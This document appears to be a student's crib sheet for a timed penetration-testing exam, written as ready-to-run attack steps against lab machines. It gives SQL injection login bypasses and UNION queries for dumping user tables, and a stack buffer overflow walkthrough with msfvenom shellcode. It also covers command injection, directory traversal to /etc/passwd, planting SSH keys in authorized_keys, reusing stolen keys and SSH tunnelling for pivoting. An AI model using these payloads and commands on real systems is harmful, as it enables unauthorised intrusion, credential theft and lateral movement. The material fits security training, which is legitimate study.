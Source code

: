 Test priority:
2 parts: 3 hours each.
SQL.
Part 1 closes out after 3 hours.
part 1: basic website
directory traversal
manipulation
command injection
ssh key masquerade
FUCKS EVERYONE:
calm down, read full question.

85% of it is linux based.

NOTES:
--------------------------------
####AUTHENTICATION BYPASS#####
'OR 1='1   $truth statement in username and password
Go to inspect > network (login so you get the post) > post > request > raw (radio button) > paste ?THERAWSTRING into google
x.x.x.x/login.php?username='OR 1='1&password=OR 1='1    ####put a ? after the php, and then paste the RAWSTRING directory after it.
x.x.x.x/login.php?username=%27OR+1%3D%271&passwd=%27OR+1%3D%271   ###Example of what it should look like

######SQL INJECTION QUIERES######
#1 Identify the vulnerable field
'OR 1='1 # Put it in the field or in the url after .php?Selection=1
#2 Identify number of columns
'Union SELECT 1,2,3 #  #might need to add other symbols to break query
#3 Use golden statement
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
Audi'UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns
#4 Craft Queries
Audi'UNION SELECT username,2,passwd,4,5 FROM session.userinfo #
## GET METHOD
#1 Identify the vulnerable field
Use the URL after submitting, take out the quest and after Selection=1 or 1=1
#2 Identify number of columns
Selection=4 Union Select 1,2,3
#3 Golden Statement
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
#4 Craft Queries is the Same
# See Databases
Audi'UNION SELECT table_schema,2,3,4,5 FROM information_schema.columns

######FIND A FILE TO EXPLOIT, RUN AGAINST IT FOR BUFFER OVERFLOW#######
Run sudo -L,
This gives you a file that you can have sudo privelages to run commands through.
/var/tmp/exploitme
Find if the file needs parameters or text input.
./var/tmp/exploitme <<<$(echo "asdasdasd")  ##Accepts text input
./var/tmp/exploitme $(echo "asdasdasd") ##Accepts parameters
Your syntax for running your script against the file will be 
gdb ./exploitme -> run $(python pbuff.py) or gdb ./exploitme -> run <<<$(python pbuff.py)
Your python file will look like: ##########
vim lynnbuff.py
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
print(offset)
#############
firefox on linux workstation -> wiremask.eu -> tools -> buffer overflow pattern generator.
Copy the Hex given, use that HEX to find the offset (Register Value), use that offset to find the actual offset.
After finding the offset, put amount of characters in your offset and recreate script to ensure its working:
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "BBBB"
print(offset+eip)
#####
your eip should be 42424242. From here you do:
gdb ./exploitme -> show env -> unset env COLUMNS -> unset env LINES -> show env -> run $(python pbuff.py) -> info proc map -> find /b (START HEX AFTER HEAP),(END HEX BEFORE STACK),
0xff, 0xe4.
The output given take first 5 lines, make your eip your first little endian. "0xf7de3b59 -> \x59\x3b\xde\xf7"
Go to your pc, and make an msfvenom to create your buf:
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python
Final script: ####################
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
buf = 
print(offset+eip+nop+buf)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python
'''
#####
###########SSH MASQUERADE#############
For dumb S WORD !!!!!!!! <!> <!> <!> ############################################################################################################################################
scp HACKER@HACKERIP:FILEPATHTOSSHKEY ME:MYFILEPATH -P ENEMYPORT
tar -xvf /home/student/stolenkey1 -C /home/student/stolenkey1_gun
ssh -MS /tmp/jmp student@10.50.11.224 -L 41010:192.168.28.100:2222
ssh www-data@localhost -p 41010 -D 9050 
proxychains nmap -T5 -Pn 192.168.150.253 -p 0-65535 2>/dev/null
chmod 600 /home/student/stolenkey1_gun/.ssh/id_rsa.pub
ssh -i /home/student/stolenkey1_gun/.ssh/id_rsa Comrade@192.168.150.253 -p 41011
ssh -MS /tmp/jmp student@10.50.11.224 -L 41010:192.168.28.100:2222 -L 41011:192.168.150.253:3201

############################################ PRE-TEST COVER ###################################
First ip address is your target , not a jump box.
Start off by nmapping the given IP, record ports.
Netcat the found ports: nc 10.50.11.179 22
# nmap --script=http-eum 10.50.11.179
firefox -> 10.50.11.179 -> open a tab for every single tab
You can do webpage.login.php?\StuffFoundInEnum and open those files.
#Run an Authentication bypass on the login page. 'OR 1='1 -> ; whoami -> ; cat /etc/passwd , look for users home directory , user2 at bottom
#File to read webpage: ../../../../../../../etc/passwd , /etc/hosts
Malicious File upload: WebEx day 1
Use SSH injection in order to get onto the machine -> ; mkdir -> ssh-kreygen -t rsa -b 4096 -> ; echo "" > /var/www/.ssh/authorized_keys
#ssh -MS /tmp/t1 www-data@10.50.11.179
on PFW machine: for i in {1..255}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
Setup dynamic tunnel to scan new target: ## ssh -S /tmp/t1 t1 -O forward -D 9050
scan new target: ## proxychains nmap 192.168.28.165,.1,.175
##proxychains nc 192.168.28.165 22 
##ssh -S /tmp/t1 t1 -O forward -L1111:192.168.28.175:2222 -L1112:192.168.38.175:8000
firefox -> 127.0.0.1:1112
Go through options, use GET method in order to find the correct one.
# ?product=7 OR 1=1 -> UNION SELECT 1,2,3,4 # (error means take a number away) -> (1,3,2) table_schema.column,column_name.table_name from information.schema.columns #
Duplicate the tab in order to save information, # UNION SELECT user_id,name,username from siteusers.users #

